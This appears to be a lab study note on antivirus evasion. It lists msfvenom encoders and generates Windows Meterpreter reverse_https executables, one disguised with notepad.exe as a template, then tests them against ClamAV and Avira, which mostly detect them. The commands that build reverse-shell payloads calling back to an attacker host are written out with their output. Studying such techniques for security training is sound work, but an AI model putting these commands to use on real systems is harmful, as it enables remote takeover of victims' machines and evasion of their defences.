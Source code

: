 # Encoders
Metasploit provide encoders used solely for character substitution to replace bad characters in exploit payloads. Help bypass signatures

x86/shikata_ga_nai_ encoder is that is good for signature evasion


```
┌──(kali㉿kali)-[~]
└─$ msfvenom --list encoders

Framework Encoders [--encoder <value>]
======================================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/base64                    good       Base64 Command Encoder
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Bourne ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    ruby/base64                   great      Ruby Base64 Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder
    x64/xor_dynamic               normal     Dynamic key XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
    x86/xor_poly                  normal     XOR POLY Encoder
```

Our payload
```
┌──(kali㉿kali)-[~]
└─$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x86/shikata_ga_nai -f exe -o hello.exe            
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 670 (iteration=0)
x86/shikata_ga_nai chosen with final size 670
Payload size: 670 bytes
Final size of exe file: 73802 bytes
Saved as: hello.exe
```

ClamAV scan will detect this so it no good. Detected shellcode encoded into the exe.
![image](https://github.com/user-attachments/assets/1fc887bb-1b12-4d7e-8924-3cbc380a7654)

Since x64 payload is less common we will try a x64 exe without encoding.
```
┌──(kali㉿kali)-[~]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443  -f exe -o hello.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 785 (iteration=0)
x86/shikata_ga_nai chosen with final size 785
Payload size: 785 bytes
Final size of exe file: 7168 bytes
Saved as: hello.exe
```

Clean scan 
![image](https://github.com/user-attachments/assets/ff3ce72f-4303-4b72-af98-8692c6082b1a)

Avira will detect this though
![image](https://github.com/user-attachments/assets/092e306a-20b9-47a8-aef1-9dc5ffc65463)


Let try another encoder. This time we will be using the x64/zutto_dekiru
```
┌──(kali㉿kali)-[~]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x64/zutto_dekiru -f exe -o hello_zutto.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 839 (iteration=0)
x64/zutto_dekiru chosen with final size 839
Payload size: 839 bytes
Final size of exe file: 7168 bytes
Saved as: hello_zutto.exe
```

Avira detect this again
![image](https://github.com/user-attachments/assets/b8bc6745-4f2a-41c7-8eea-f34765f33dfc)

copy the notepad application located at
C:\Windows\System32\notepad.exe to Kali and use it as a
template for our payload
```
┌──(kali
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.176.134 LPORT=443 -e x64/zutto_dekiru -x ./notepad.exe -f exe -o 64_notepad.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 739 (iteration=0)
x64/zutto_dekiru chosen with final size 739
Payload size: 739 bytes
Final size of exe file: 225792 bytes
Saved as: 64_notepad.exe
```

Not effective cant use any msfvenom encoding outdated
![image](https://github.com/user-attachments/assets/9254fdfe-c328-4541-bdf2-0b7eb50ac79c)



